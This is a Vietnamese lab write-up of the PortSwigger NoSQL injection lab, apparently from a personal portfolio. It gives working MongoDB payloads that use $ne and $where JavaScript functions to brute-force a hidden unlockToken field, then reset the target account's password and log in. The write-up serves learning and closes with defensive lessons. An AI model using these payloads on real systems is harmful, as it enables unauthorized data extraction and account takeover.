







# Write-up: Lab: Exploiting NoSQL operator injection to extract unknown fields

### Tổng quan
Khai thác lỗ hổng NoSQL injection trong chức năng user lookup sử dụng MongoDB, tận dụng toán tử `$ne` và `$where` để dò trường ẩn `unlockToken`, trích xuất giá trị token, sử dụng token để truy cập chức năng đổi mật khẩu, đăng nhập tài khoản `carlos` và hoàn thành lab.

### Mục tiêu
- Sử dụng NoSQL injection để trích xuất trường `unlockToken`, lấy giá trị token, đổi mật khẩu tài khoản `carlos`, và đăng nhập để hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Kiểm tra chức năng user lookup trên giao diện web.
- Trong Burp Suite Proxy, bắt được yêu cầu POST tới endpoint
    
    - **Quan sát**: Ứng dụng sử dụng MongoDB NoSQL, gợi ý khả năng tồn tại lỗ hổng NoSQL injection trong xử lý JSON input:

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `POST /login` tới Burp Repeater, thử NoSQL injection với `$ne`:
    - **Phản hồi**: "Account locked: please reset your password", xác nhận tài khoản carlos tồn tại và dễ bị NoSQL injection.
        

- Thử thêm `$where` để kiểm tra điều kiện:
    `{"username":"carlos","password":{"$ne":"invalid"},"$where":"0"}`
        - **Phản hồi**: "Invalid username or password".
    `{"username":"carlos","password":{"$ne":"invalid"},"$where":"1"}`
        - **Phản hồi**: "Account locked: please reset your password", xác nhận $where có thể thao túng truy vấn MongoDB.

- Dò trường ẩn bằng `$where`:
    - Sửa JSON trong body và thực hiện brute force : `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(Object.keys(this)[4].match(/^§a§/)) return 1; else return 0; }"}`
        
        - **Phản hồi**: `"Account locked: please reset your password"`, xác nhận trường thứ 4 là `unlockToken`.

- Dò độ dài `unlockToken`:
    - `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(this.unlockToken.length==§1§) return 1; else return 0; }"}`
    - Thay §1§ từ 1 đến 20, nhận phản hồi `"Account locked"` tại §1§=16, xác nhận độ dài unlockToken là 16.
        

- Dò từng ký tự của unlockToken
    - `{"username":"carlos","password":{"$ne":"invalid"},"$where":"function(){if(this.unlockToken[§0§]=='§a§') return 1; else return 0; }"}`
    - Thay §0§ từ 0 đến 15 và §a§ với các ký tự hex (0-9, a-z, A-Z), nhận giá trị unlockToken là `5e49c294c27a7c2a`.
        

- Kiểm tra endpoint `/forgot-password` trong Burp Proxy:
    `GET /forgot-password?unlockToken=11 HTTP/2`
    - **Phản hồi**: "Invalid token", xác nhận tham số unlockToken tồn tại.
        

- Sử dụng unlockToken đúng:
    `GET /forgot-password?unlockToken=5e49c294c27a7c2a HTTP/2`
    - **Phản hồi**: Truy cập được trang đổi mật khẩu, đặt mật khẩu mới là `1111`:
        

- Đăng nhập với `carlos`:`1111`:
    - **Phản hồi**: Đăng nhập thành công
        

- **Giải thích**: Lỗ hổng NoSQL injection cho phép thao túng truy vấn MongoDB với `$ne` và `$where`, dò trường ẩn `unlockToken`, lấy giá trị token để truy cập chức năng đổi mật khẩu do server không xác thực chặt chẽ input JSON.

### Bài học rút ra
- Hiểu cách khai thác NoSQL injection với $where để dò các trường ẩn và trích xuất dữ liệu nhạy cảm trong MongoDB.
- Nhận thức tầm quan trọng của việc xác thực và làm sạch input JSON, cũng như hạn chế sử dụng toán tử $where trong truy vấn MongoDB để ngăn chặn injection.

### Tài liệu tham khảo
- PortSwigger: NoSQL Injection

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác NoSQL injection để dò trường ẩn, trích xuất token, và bypass cơ chế xác thực, đồng thời hiểu cách bảo vệ ứng dụng MongoDB khỏi injection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*